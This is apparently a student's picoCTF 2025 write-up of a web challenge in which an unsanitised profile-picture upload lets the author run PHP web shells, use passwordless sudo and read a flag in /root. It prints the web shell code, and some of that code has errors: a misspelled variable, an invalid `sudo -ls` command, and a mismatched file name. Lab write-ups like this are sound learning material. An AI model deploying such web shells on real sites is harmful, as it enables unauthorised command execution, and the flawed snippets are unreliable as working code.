 # Challenge: n0s4n1ty 1

## Details:

- Source: picoCTF 2025
- Category: Web Explotation
- Difficulty: Easy
- Date completed: 12.07.2025
- A website was provided


## Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.


## Hints

1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check sudo -l


## Tools

- A simple PHP web shell


## Steps taken

1. As hints suggested, there was no input sanitation in the website. Users can upload any kind of files instead of image files.

2. I did some research and wrote a php file to get a web shell in order to execute commands. My first try was to run `sudo -l` as the hint suggested.

    ```bash
    <?php 
    $command = 'sudo -l';
    $ouput = exec($command);
    echo "$output";
    ?>
    ```

3. I encountered this after uploading, suggesting the directory where my files are uploaded can be accessed publicly.

    ![Uploaded](./Images/03-uploaded.png)

4. I navigated to the /uploads/filename.

    ![See result](./Images/03-see_uploaded.png)

This output showed that I can run any command with sudo without password.

5. My next attempt was to see the files and directories `/root` contained, as the description mentioned the flag was somewhere there. This was my next php file.

    ```bash
    <?php
    $command = 'sudo -ls /root';
    $output = exec($command);
    echo "$output";
    ?>
    ```

6. I discovered the only file in root directory was `flag.txt`, therefore my next and final step was to read its contents and submit the flag, for whic I modified my `exploit.php` file to this.

    ```bash
    <?php
    $command = 'sudo cat /root/file.txt';
    $output = exec($command);
    echo "$output";
    ?>
    ```


## What I learned

1. File upload vulnerabilities occur when an application allows a user to upload a file without properly validating the file’s type, name, size, or content.

2. These vulnerabilities can lead to Remote Code Execution (RCE), directory traversal, or webshell access if exploited.

3. These vulnerabilities can be exploited using Burpsuite as well, by changing headers. 


## Useful references

1. [File upload vulnerabilities learning path](https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities)

2. [Web Shells 101](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)

